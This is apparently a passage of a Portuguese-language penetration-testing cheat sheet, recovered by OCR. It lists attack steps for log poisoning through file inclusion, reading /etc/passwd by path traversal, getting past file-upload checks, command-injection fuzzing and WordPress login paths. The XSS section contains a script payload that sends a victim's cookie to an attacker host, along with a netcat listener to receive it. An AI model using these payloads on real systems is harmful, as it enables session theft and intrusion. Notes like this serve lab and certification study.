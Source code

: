   - 3: Log poison
    - a: Se o arquivo de log estiver acessível, como `/var/log/vsftpd.log`, `/var/log/apache2/access.log`
    - b: Para `access.log`, insira a carga útil no agente do usuário. Para `vsftpd.log`, forneça carga útil
na `seção de nome de usuário`. 
    - c: `Incluir` o arquivo de log
    
  - 4: `send mail`
    - a: Envie um e-mail com uma carga maliciosa
    - b: Incluir `/var/mail/www-data`
  
10: Alguma `restrição`, precisa de um pequeno `ajuste` no `nome do arquivo`, `extensão do arquivo`, final do nome do arquivo `(%00)`, etc.
 
## Path Traversal
 
1: Leia o  `arquivo do servidor`, como `/etc/passwd`

2: Transferir arquivo `inacessível` (arquivo de `back-end`, arquivo `autorizado-requerido`) para
diretório acessível (`interface` do gerenciador de arquivos, compartilhamento `SMB/FTP`)

## File Upload

1: Não tem nenhuma restrição: Basta fazer o upload!

2: Restrição do lado do cliente: use `burpsuite` para `editar a solicitação` e `encaminhar`

3: Restrição do lado do servidor: altere o `número mágico`, o `nome da extensão do arquivo`, etc.

4: Restrição inexplorável: é uma `toca de coelho`

## XSS

1: Roube o `cookie` do administrador ou de outro usuário online para `ignorar o login`
  - a: `<script>new Image().src="http://10.10.10.20/file.jpg?cookie="+document.cookie;</script,`
  - b: `nc -nlvp 80`

## Command Injection

1: Se você puder encontrar o `código-fonte` para fazer uma revisão do código da `whitebox`

2: Fuzzing `endpoint de API`

3: Fuzz um `argumento`. Se não houver argumento, `adivinhe um`

## WordPress

1: Caminho de `login padrão`: `/wp-login.php`, `/wp-login`, `/wp-admin`, `/wp-admin.php`, `/Conecte-se`

2: wpscan

3: `Plugin`, `exploit de temas`
